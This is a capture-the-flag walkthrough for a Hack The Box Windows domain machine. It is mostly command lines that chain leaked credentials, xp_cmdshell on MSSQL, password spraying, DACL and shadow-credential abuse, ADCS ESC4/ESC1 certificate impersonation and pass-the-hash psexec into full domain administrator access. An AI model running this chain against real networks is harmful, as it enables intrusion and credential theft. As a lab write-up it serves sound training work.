


    echo 10.10.11.51     escii.htb | sudo tee -a /etc/hosts

We are given credentials for the following account: rose / KxEPkKe6R8su

# Enumeration

`nmap -sV escii.htb`

Windows box with 445 (smb) open

Looking at UDP as well
`nmap -sU escii.htb`


Tried various credentials and enumeration from: https://0xdf.gitlab.io/cheatsheets/smb-enum no success

<figure>

<figcaption
aria-hidden="true">Pastedimage20250201193155.png</figcaption>
</figure>


\## Initial Foothold
rose has read access to the Users folder and 'Accounting Department'
`smbclient //escii.htb/'Accounting Department' -U 'rose' 'KxEPkKe6R8su'`
reveals 2 excel sheets

They seem to be corrupted opening them using pandas.read_excel() fails, so raw dogging unzipped and found some credentials in accounts.xlsx/xl/sharedStrings.xml

angela@sequel.htb, angela, 0fwz7Q4mSpurIt99
oscar@sequel.htb, oscar, 86LxLBMgEWaKUnBG
kevin@sequel.htb, kevin, Md9Wlq1E5bZnVDVo
sa@sequel.htb, sa, MSSQLP@ssw0rd!

Throwing that through netexec
`nxc smb escii.htb -u users.txt -p passwords.txt --no-bruteforce --continue-on-success`

Only 'oscar' seems to have access:

and the credentials gives same access as rosie

<figure>

<figcaption
aria-hidden="true">Pastedimage20250207111605.png</figcaption>
</figure>

The sql credentials look promising though...
`nxc mssql escii.htb -u 'sa' -p 'MSSQLP@ssw0rd!' --local-auth`

hOOYAH

`"SELECT * FROM INFORMATION_SCHEMA.TABLES"`


`nxc mssql 10.10.10.52 -u admin -p 'm$$ql_S@_P@ssW0rd!' --local-auth -q 'SELECT name FROM master.dbo.sysdatabases;'`

<figure>

<figcaption
aria-hidden="true">Pastedimage20250208160322.png</figcaption>
</figure>

#### Overview of mssql backend commands

xp_cmdshell need to be turned on

https://www.mssqltips.com/sqlservertip/1020/enabling-xpcmdshell-in-sql-server/

``` sql
-- this turns on advanced options and is needed to configure xp_cmdshell
EXEC sp_configure 'show advanced options', '1'
RECONFIGURE
-- this enables xp_cmdshell
EXEC sp_configure 'xp_cmdshell', '1' 
RECONFIGURE
```

https://learn.microsoft.com/en-us/sql/relational-databases/system-catalog-views/security-catalog-views-transact-sql?view=sql-server-ver15

https://www.hackingarticles.in/mssql-for-pentester-command-execution-with-xp_cmdshell/
\## Moving on..
Poking around using the xp_shell execution -x "command here"
`nxc mssql escii.htb -u 'sa' -p 'MSSQLP@ssw0rd!' --local-auth -x "dir C:\SQL2019"`


`nxc mssql escii.htb -u 'sa' -p 'MSSQLP@ssw0rd!' --local-auth -x "type C:\SQL2019\ExpressAdv_ENU\sql-Configuration.INI"`

Reveals another password - throwing that into the list of passwords ad try to brute force this via SMB


Brute forcing:
`nxc smb escii.htb -u users_expanded.txt -p passwords.txt --continue-on-success`

ryan is sql_svc
with pw: WqSZAF6CysDQbGb3

Poking around:

No access to content of administrator, Public or sql_svc
But the User flag is on ryan's desktop

<figure>

<figcaption
aria-hidden="true">Pastedimage20250209095128.png</figcaption>
</figure>

## Privilege escalation

With foothold established, enumerate host with bloodhound
Install:
https://www.kali.org/tools/bloodhound/

It has a python tool to harvest the data via the compromised 'ryan' user
from netexec : sequel.htb and ryans credentials

cd to the folder you want the bloodhound dump and unleash:

`bloodhound-python -d sequel.htb -u ryan -p WqSZAF6CysDQbGb3 -ns 10.10.11.51`

Drag'n'drop the files into bloodhound or use the 'upload data' button

Usage:
each node has 3 panes: Database Info Node Info and Analysis
The Analysis tab has some fancy analyses to carry out
The node info tab has In and Outbound rights way at the bottom

We have ryans credentials so go from there:


### Possible Exploit

Ryan has WriteOwner privilege on CA_SVC assuming it is a certificate authority
There is even a feature that shows what it does (? help)


Including abuse guides
\## Suggesting Shadow Credential Attack
https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab

### prepare target host

Add ryan as owner on ca_svc:

`impacket-owneredit -action write -new-owner 'ryan' -target 'ca_svc' -dc-ip 10.10.11.51 sequel.htb/ryan:WqSZAF6CysDQbGb3`

<figure>

<figcaption
aria-hidden="true">Pastedimage20250317214520.png</figcaption>
</figure>

<figure>

<figcaption
aria-hidden="true">Pastedimage20250317214606.png</figcaption>
</figure>

Modify ryans privileges on ca_svc:

\`impacket-dacledit -action 'write' -rights 'FullControl' -principal 'ryan' -target 'ca_svc' -dc-ip 10.10.11.51 sequel.htb/ryan:WqSZAF6CysDQbGb3


### Certificate exploits

Yet another tool:
Pywhisker for certificate pre-authorization
(pipx install pywhisker)

pywhisker --dc-ip 10.10.11.51 -d sequel.htb -u ryan -p WqSZAF6CysDQbGb3 --target "CA_SVC" --action "add" --filename CACert --export PEM


Dumps the certificate in the folder from where the script is run

Yet Yet another tool is needed to read the certificate- from PKINITtools (https://github.com/dirkjanm/PKINITtools)
(in a venv! git clone and install)

`python3 PKINITtools/gettgtpkinit.py -cert-pem CACert_cert.pem -key-pem CACert_priv.pem -dc-ip 10.10.11.51 sequel.htb/ca_svc ca_svc.ccache`


Export the cache
`export KRB5CCNAME=ca_svc.ccache`


Get the nt hash
`python3 PKINITtools/getnthash.py -key 2f5372d436b2d6001d21e36dd5aedc32e4a7e33e59ee47ad1aa98db4cc16d10d sequel.htb/CA_SVC -dc-ip 10.10.11.51`


Check the user hash for CA_SVC using netexec


gives us the nt hash:
3b181b914e7a9d5508ea1e20bc2b7fce

## Privilege Escalation

Search for vulnerabilities from CA_SVC:

`certipy-ad find -vulnerable -u ca_svc@sequel.htb -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -dc-ip 10.10.11.51`
Spits out a json, txt and zipfile (for bloodhound)
Found info on much the same as netexec, but in addition hereto: also contains certificate issuers names "DunderMifflinAuthentication" needed further:


Medum article on AD attacks
https://medium.com/@offsecdeer/adcs-exploitation-part-1-common-attacks-b7ae62519828

And explains how ESC4 can be exploited (turning it to ESC1)
\#### ESC1 (SubjectAltName Impersonation)

`SubjectAltName` (SAN) is an optional certificate extension that can be populated with a subject different than the enrollee, the CA will then issue the certificate to this account: if user Mark sends a CSR with `SubjectAltName` set to Luigi's UPN, the resulting certificate will be issued to Luigi instead of Mark.

Save old (reset something..)
`certipy-ad template -username 'ca_svc@sequel.htb' -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -template DunderMifflinAuthentication -save-old -dc-ip 10.10.11.51`

<figure>

<figcaption
aria-hidden="true">Pastedimage20250317230253.png</figcaption>
</figure>

Exploit using ESC1 from the article
`certipy-ad req -username 'ca_svc@sequel.htb' -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -ca sequel-DC01-CA -target DC01.sequel.htb -template DunderMifflinAuthentication -upn administrator@sequel.htb -dc-ip 10.10.11.51`


Autenticate
`certipy-ad auth -pfx administrator.pfx -domain sequel.htb -dc-ip 10.10.11.51`

giving the administrator hash

Exploit via ps exec
`impacket-psexec sequel.htb/administrator@10.10.11.51 -hashes aad3b435b51404eeaad3b435b51404ee:7a8d4e04986afa8ed4060f75e5a0b3f`


root flag on the desktop

